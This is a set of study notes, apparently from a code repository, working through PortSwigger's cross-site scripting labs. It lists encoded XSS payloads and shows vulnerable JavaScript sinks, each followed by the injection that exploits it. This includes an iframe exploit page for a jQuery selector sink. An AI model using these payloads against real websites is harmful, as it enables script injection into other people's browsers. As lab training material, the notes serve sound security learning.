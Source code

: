 # Portswigger (Cross Site Scripting)


## Understanding browser parsing

Reference: https://www.attacker-domain.com/2013/04/deep-dive-into-browser-parsing-and-xss.html

```
1. <a href="%6a%61%76%61%73%63%72%69%70%74:%61%6c%65%72%74%28%31%29"></a>
URL encoded "javascript:alert(1)"

2. <a href="&#x6a;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;:%61   %6c%65%72%74%28%32%29">
Character entity encoded "javascript" and URL encoded "alert(2)"

3. <a href="javascript%3aalert(3)"></a>
URL encoded ":"

4. <div>&#60;img src=x onerror=alert(4)&#62;</div>
Character entity encoded < and >

5. <textarea>&#60;script&#62;alert(5)&#60;/script&#62;</textarea>
Character entity encoded < and >

6. <textarea><script>alert(6)</script></textarea>

Advanced
7. <button onclick="confirm('7&#39;);">Button</button>
Character entity encoded '

8. <button onclick="confirm('8\u0027);">Button</button>
Unicode escape sequence encoded '

9. <script>&#97;&#108;&#101;&#114;&#116&#40;&#57;&#41;&#59</script>
Character entity encoded alert(9);

10. <script>\u0061\u006c\u0065\u0072\u0074(10);</script>
Unicode Escape sequence encoded alert

11. <script>\u0061\u006c\u0065\u0072\u0074\u0028\u0031\u0031\u0029</script>
Unicode Escape sequence encoded alert(11)

12. <script>\u0061\u006c\u0065\u0072\u0074(\u0031\u0032)</script>
Unicode Escape sequence encoded alert and 12

13. <script>alert('13\u0027)</script>
Unicode escape sequence encoded '

14. <script>alert('14\u000a')</script>
Unicode escape sequence encoded line feed.

Bonus
15.     <a
      href="&#x6a;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3a;&#x25;
&#x35;&#x63;&#x25;&#x37;&#x35;&#x25;&#x33;&#x30;&#x25;&#x33;&#x30;&#x25;&#x33;
&#x36;&#x25;&#x33;&#x31;&#x25;&#x35;&#x63;&#x25;&#x37;&#x35;&#x25;&#x33;&#x30;
&#x25;&#x33;&#x30;&#x25;&#x33;&#x36;&#x25;&#x36;&#x33;&#x25;&#x35;&#x63;&#x25;
&#x37;&#x35;&#x25;&#x33;&#x30;&#x25;&#x33;&#x30;&#x25;&#x33;&#x36;&#x25;&#x33;
&#x35;&#x25;&#x35;&#x63;&#x25;&#x37;&#x35;&#x25;&#x33;&#x30;&#x25;&#x33;&#x30;
&#x25;&#x33;&#x37;&#x25;&#x33;&#x32;&#x25;&#x35;&#x63;&#x25;&#x37;&#x35;&#x25;
&#x33;&#x30;&#x25;&#x33;&#x30;&#x25;&#x33;&#x37;&#x25;&#x33;&#x34;&#x28;&#x31;
&#x35;&#x29;"></a>
```


## Lab: Reflected XSS into HTML context with nothing encoded

```html
<img/src=x onerror=alert(1)>
```

## Lab: Stored XSS into HTML context with nothing encoded

in the comment add the same payload as above. 

## Lab: DOM XSS in document.write sink using source location.search

The vulnerable script here is:

```js
<script>
    function trackSearch(query) {
        document.write('<img src="/resources/images/tracker.gif?searchTerms='+query+'">');
    }
    var query = (new URLSearchParams(window.location.search)).get('search');
    if(query) {
        trackSearch(query);
    }
</script>
```

Here we can inject the query paramter to be a onload function

```js

" onload=alert(1) "><!--

```

## Lab: DOM XSS in innerHTML sink using source location.search

Same logic as available but this time the payload is even simpler. The flawed code is below

```js
<script>
    function doSearchQuery(query) {
        document.getElementById('searchMessage').innerHTML = query;
    }
    var query = (new URLSearchParams(window.location.search)).get('search');
    if(query) {
        doSearchQuery(query);
    }
</script>
```

We just need to pass a valid XSS payload in the query param

```html
<img/src=x onerror=alert(1) />
```

## Lab: DOM XSS in jQuery anchor href attribute sink using location.search source

The vulnerable code here is:

```js
<script>
    $(function() {
        $('#backLink').attr("href", (new URLSearchParams(window.location.search)).get('returnPath'));
    });
</script>
```
We are here setting the href value for a 'a' tag and it's user controlled. I can just provide the URL to be a javascript: scheme URI

Payload:

```
https://ac591f861fed0e7cc0f8a581000f0090.web-security-academy.net/feedback?returnPath=javascript:alert(1)
```

## Lab: DOM XSS in jQuery selector sink using a hashchange event

The vulnerable code

```js
<script>
    $(window).on('hashchange', function(){
        var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')');
        if (post) post.get(0).scrollIntoView();
    });
</script>
```

So based on the site: https://stackoverflow.com/questions/43792317/exploiting-xss-in-jquery-1-7-2-selector when you have 

```js
$('. <img src=x onerror=alert(1)>');
```

jQuery will try to create a image tag. We can use this to exploit. The final paylaod looks like

```html
<html>
    
<script>
function exploit(e) {
e.src += "#') . <img src=x onerror=print() />";
}
</script>

<body><iframe src="https://ac811fa21ffdc828c0fe52d300b100b3.web-security-academy.net/" onload="exploit(this);"></iframe></body>

</html>
```

## Lab: Reflected XSS into attribute with angle brackets HTML-encoded

This one was simple as well. The payload needed to be inserted in the value of in the input tag and I could escape it using the double quotes. Once I had control over the input tag, I could craft a number of payloads for XSS. The one I used was

```js
" autofocus onfocusin=alert(1) "
```

There are plenty more in: https://portswigger.net/web-security/cross-site-scripting/cheat-sheet


## Lab: Stored XSS into anchor href attribute with double quotes HTML-encoded